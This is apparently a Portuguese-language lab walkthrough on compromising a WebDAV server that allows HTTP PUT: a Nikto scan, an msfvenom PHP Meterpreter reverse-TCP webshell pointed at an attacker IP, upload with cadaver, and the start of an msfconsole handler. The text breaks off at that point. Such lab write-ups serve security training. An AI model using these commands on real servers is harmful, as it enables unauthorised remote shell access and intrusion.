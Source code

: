 Primeiramente vamos scannear a rede para detectar o host comprometido
```bash
nikto -h http://192.168.100.11
```

![Resultado do scan do Nikto](./lab-n-1.png)

O output do Nikto confirmará se o método PUT está habilitado no servidor de destino. Se mostrar que o método PUT está aberto, o servidor estará vulnerável a ataques de upload de arquivos.

Usaremos o Msfvenom, uma ferramenta poderosa para gerar payloads para o Metasploit. Geraremos um payload TCP reverso do PHP Meterpreter, que nos permitirá estabelecer uma conexão shell reversa com a máquina alvo.

Execute o seguinte comando no Kali Linux para gerar o payload PHP:


![Comando](./lab-n-2.png)

```bash
$ msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.10.10 lport=5555 -f raw > webshell.php
```
Obs: 192.168.10.10 ip do atacante.

Isso gerará o código PHP para o shell reverso. Copie o código do payload e salve-o como um arquivo chamado webshell.php na sua máquina Kali.

##### Exploint usando um Método HTTP PUT com cadaver

1. Usando o Cadaver para Upload de Arquivos
 - O Cadaver é uma ferramenta de linha de comando pré-instalada no Kali Linux que permite o upload e download de arquivos de servidores WebDAV.
  Para usar o Cadaver para fazer upload do arquivo webshell.php, siga estes passos:

2. Abra o terminal no Kali Linux e execute:
```bash 
$ cadaver http://192.168.100.11/dav/

dav:/dav/> put webshell.php

```
Retorno: 

![Comando Cadaver](./lab-n-3.png)

Feito isso so validar se o webshell.php esta no servidor comprometido.
Utilizando o navegador de sua preferencia, e usando o endereco incial. No nosso caso, http://192.168.100.11/dav validar se oarquivo webshell.php foi copiado para o servidor vuneravel.

![http](./lab-n-4.png)

uhuuu o arquivo do reverso esta ali :D 

- agora vamos iniciar o shell reverso para ter acesso ao servidor
voltando ao cli do kali

e vamos entrar no msfconsole
